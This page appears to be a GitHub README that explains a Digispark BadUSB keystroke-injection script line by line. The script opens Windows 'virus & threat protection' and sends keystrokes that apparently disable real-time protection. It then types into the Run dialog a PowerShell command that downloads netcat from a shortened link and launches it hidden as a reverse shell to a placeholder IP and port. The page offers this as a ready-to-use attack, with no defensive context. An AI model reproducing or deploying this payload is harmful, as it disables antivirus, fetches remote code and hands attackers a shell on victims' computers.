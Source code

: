 <h2> <div align="center"><i>This script uses the DigiKeyboard library to automate keystrokes and input text Here is a breakdown of each line of code:</i></div></h2>

<code color="#00979C">#include "DigiKeyboard.h"</code>

<em><div align="center"><code>This line includes the header file "DigiKeyboard.h," which provides the necessary definitions and functions for interacting with the DigiKeyboard.</code></em></div>

<code color="#00979C">void setup(){</code>
  
<em><div align="center"><code>This marks the beginning of the setup() function, which is a special function in Arduino that is called once when the board is powered on or reset.</code></em></div>

<code color="#00979C">DigiKeyboard.delay(1000);</code>

<em><div align="center"><code>This line introduces a delay of 1000 milliseconds (1 second) in the program execution.</code></em></div>

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_S, MOD_GUI_LEFT);</code>

<em><div align="center"><code>This line simulates pressing the 'S' key along with the left GUI (Windows key) modifier using the sendKeyStroke() function.</code></em></div>

<code color="#00979C">DigiKeyboard.delay(1000);</code>
  
<em><div align="center"><code>Another delay of 1000 milliseconds is introduced.</code></em></div>

<code color="#00979C">DigiKeyboard.print("virus & threat protection");</code>
  
<em><div align="center">The print() function is used to simulate typing the string "virus & threat protection" as keystrokes.</code></em></div>

<code color="#00979C">DigiKeyboard.delay(500);</code>
  
<em><div align="center">A delay of 500 milliseconds (0.5 seconds) is added.</code></em></div

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_ENTER);</code>
  
<em><div align="center">The sendKeyStroke() function simulates pressing the Enter key.</code></em></div

<code color="#00979C">DigiKeyboard.delay(5000);</code>
  
<em><div align="center">A delay of 5000 milliseconds (5 seconds) is introduced.</code></em></div

<code color="#00979C">DigiKeyboard.sendKeyStroke(43);</code>
  
<em><div align="center">The sendKeyStroke() function is used to simulate tapping a key with the code 43. The specific key associated with code 43 may vary depending on the keyboard layout.</code></em></div

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_ENTER);</code>
  
<em><div align="center">Another Enter key press is simulated.</code></em></div

<code color="#00979C">DigiKeyboard.delay(700);</code>
  
<em><div align="center">A delay of 700 milliseconds (0.7 seconds) is added.</code></em></div

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_ENTER);</code>
  
<em><div align="center">Yet another Enter key press is simulated.</code></em></div

<code color="#00979C">DigiKeyboard.delay(700);</code>
  
<em><div align="center">Another delay of 700 milliseconds is introduced.</code></em></div

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_SPACE);</code>
  
<em><div align="center">The sendKeyStroke() function simulates pressing the Space key.</code></em></div

<code color="#00979C">DigiKeyboard.delay(2000);</code>
  
<em><div align="center">A delay of 2000 milliseconds (2 seconds) is added.</code></em></div

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_Y, MOD_ALT_LEFT);</code>
  
<em><div align="center">The sendKeyStroke() function is used to simulate pressing the 'Y' key along with the left Alt modifier.</code></em></div

<code color="#00979C">DigiKeyboard.delay(1000);</code>
  
<em><div align="center">A delay of 1000 milliseconds (1 second) is introduced.</code></em></div

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_F4, MOD_ALT_LEFT);</code>
  
<em><div align="center">The sendKeyStroke() function is used to simulate pressing the F4 key along with the left Alt modifier. This combination is often used to close the active window in Windows.</code></em></div

<code color="#00979C">DigiKeyboard.delay(500);</code>
  
<em><div align="center">A delay of 500 milliseconds (0.5 seconds) is added.</code></em></div

<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);</code>
  
<em><div align="center">The sendKeyStroke() function is used to simulate pressing the 'R' key along with the left GUI (Windows key) modifier.</code></em></div

<code color="#00979C">DigiKeyboard.delay(700);</code>
  
<em><div align="center">A delay of 700 milliseconds (0.7 seconds) is introduced.</code></em></div

<code color="#00979C">DigiKeyboard.print("powershell curl -o netcat.exe https://bit.ly/3G3R1d1 ; powershell -w hidden netcat.exe <ip> <port> -e powershell.exe");</code>
  
<em><div align="center">The print() function is used to simulate typing the provided string, which contains a PowerShell command.</code></em></div
  
<code color="#00979C">DigiKeyboard.sendKeyStroke(KEY_ENTER);</code>
  
<em><div align="center">The sendKeyStroke() function is used to simulate pressing the Enter key.</code></em></div

<code color="#00979C">void loop(){}</code>
<em><div align="center">This is the loop() function, which runs repeatedly after the setup() function. However, in this code, the loop() function is empty, so it doesn't contain any specific instructions.</code></em></div




